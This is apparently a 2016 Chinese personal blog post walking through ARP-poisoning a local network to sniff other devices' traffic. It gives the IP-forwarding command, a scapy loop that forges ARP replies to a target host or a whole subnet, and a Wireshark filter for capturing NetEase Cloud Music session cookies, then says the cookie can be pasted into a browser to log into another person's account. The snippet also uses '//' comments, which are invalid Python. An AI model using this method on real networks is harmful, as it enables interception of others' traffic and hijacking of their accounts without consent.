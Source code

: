 ```yaml
---
title: 走进科学之如何正确地抓包——破
date: 2016-04-26 21:25:44
tags:
---
```

上一篇博客提到窃听流量的方式多种多样。而实际上通过vpn来窃听流量的方式操作起来不是很好玩。

于是经过上网查找，找到了reverland的[博客](http://reverland.org/security/2016/03/08/harvest-mm-pics/)，于是如法炮制的试验了一下。

由于内容继承了上一篇，因此本文的标题就叫“破”好了。

### 原理

通过arp污染，让局域网内的机器认为本机是网关，窃听上传流量

具体一点的原因是这样：数据包在局域网内传输时，会根据本机维护的一个arp表进行传输。

通过查询arp表内局域网ip对应的mac地址发送数据，也就是说只要让目标机器误以为我的机器的mac地址为网关的mac地址就能窃听机器的上传流量，而只要在我机器上做了转发，目标机器就能正常通信

以下的内容和reverland的博客内容一样。。。

### 设置系统转发

切换为root用户之后，在终端中输入

`echo 1 > /proc/sys/net/ipv4/ip_forward`

### arp污染

在进行apr污染之前，可以先查看同一局域网下linux设备或者安卓手机的arp表，使用命令`cat /proc/net/arp`查看。

进入python的交互模式，输入以下命令

```
from scapy.all import *
import time

target = ""//目标机器ip，例如"192.168.1.10"，输入子网"192.168.1.0/24"也行
gateway = ""//网关的ip，例如"192.168.1.1"

while 1:
  send(ARP(op="who-has",pdst=target,psrc=gateway))
  time.sleep(1)
```

很快局域网内的设备arp表就会更新，网关mac地址被更改为本机的mac地址

### 获取cookie

这时打开wireshark，就可以愉快的查看数据包了

输入过滤条件`http.host=="music.163.com" and http.cookie`，然后在手机上打开网易云音乐，就能得到cookie

粘贴到浏览器就能愉快的登陆别人的网易云音乐了。。虽然这并没有什么用。。
